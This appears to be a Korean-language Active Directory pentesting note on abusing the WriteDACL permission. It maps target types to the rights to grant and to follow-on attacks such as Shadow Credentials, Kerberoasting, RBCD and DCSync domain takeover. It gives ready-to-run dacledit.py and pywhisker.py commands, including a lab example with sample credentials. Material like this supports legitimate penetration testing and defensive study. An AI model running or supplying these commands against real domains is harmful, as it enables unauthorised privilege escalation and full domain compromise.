


# WriteDACL

* WriteDACL은 특정한 주체에게 대상의 특정 DACL 권한을 부여해줄 수 있는 권한이다.
* 블러드하운드 Edge

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 악용 - 유저, 컴퓨터, OU, 컨테이너, 도메인

* 특정 대상에게 어떠한 권한이든 부여해 줄 수 있으니, 대상의 종류에 맞춰 필요한 권한을 부여해준 뒤, 그 권한을 바탕으로 공격을 진행한다.
* 대상에 종류에 따른 부여할 권한과 그 이후 공격들은 다음과 같다.
  * 유저: FullControl 권한 부여 후 Shadow Credentials, Targeted Kerberoasting, Force Change Password 등의 공격 진행
  * 컴퓨터: FullControl 권한 부여 후 Shadow Credentials, RBCD 등의 공격 진행
  * 그룹: WriteMembers 권한 부여 후 AddMember 권한으로 공격자 유저를 그룹에 참여
  * 도메인: DCSync 권한 부여 후 DCSync 기능으로 도메인 장악
  * GPO: 패스

```
# DACL 수정 - FullControl 
dacledit.py -action write -rights FullControl -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# DACL 수정 - WriteMembers 
dacledit.py -action write -rights WriteMembers -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# DACL 수정 - DCSync 
dacledit.py -action write -rights DCSync -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```


